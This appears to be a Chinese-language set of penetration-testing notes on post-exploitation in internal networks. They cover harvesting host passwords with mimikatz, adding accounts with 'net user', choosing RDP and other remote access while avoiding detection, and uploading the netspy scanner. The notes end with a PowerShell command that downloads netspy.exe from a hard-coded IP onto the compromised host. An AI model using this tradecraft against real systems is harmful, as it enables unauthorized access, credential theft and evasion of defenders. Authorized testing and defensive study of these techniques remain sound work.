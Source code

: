 ```yaml
---
date: 2025-10-09

---
```


# 内网渗透

---

## 远程登录

拿到 shell 之后需要登录的话可以用 `mimikatz` 之类的工具尝试获取主机密码, 如果能拿到明文密码的话就能够远程登录了

或者用 `net user` 命令创建新用户来进行登录(不过相比直接拿原有账密的密码而言, 这种操作太容易被发现了(⊙x⊙;))

- 选择合适的实际直接 RDP 过去是一种可行的方案, 不过默认情况下 Windows 只允许一个用户通过远程桌面连接登录, 如果挤掉了其他远程连接用户的话那么就被发现了

  > Win7 下拿到 shell 之后似乎可以通过在命令行中通过修改系统注册表来实现
  >
  > [How to enable multiple logon remote desktop in Windows 7 - Super User](https://superuser.com/questions/64171/how-to-enable-multiple-logon-remote-desktop-in-windows-7)

- Telnet

- SSH

- Powershell Remoting

- 第三方远程工具, 如 TeamViewer, VNC, PC Anywhere

> 除了 RDP 这一常用功能外, 其他的工具都或多或少需要在远控主机上进行相应的配置, 容易留下痕迹, 因此按下不表

---

## 内网信息收集

走代理扫描容易丢包, 推荐将扫描工具上传后扫描

---

### netspy

> netspy是一款快速探测内网可达网段工具(深信服深蓝实验室天威战队强力驱动) 

可以在 [Releases · shmilylty/netspy (github.com)](https://github.com/shmilylty/netspy/releases) 下载可执行文件压缩包


```
iwr -Uri http://100.1.1.138:8000/download/netspy.exe -OutFile netspy.exe
```


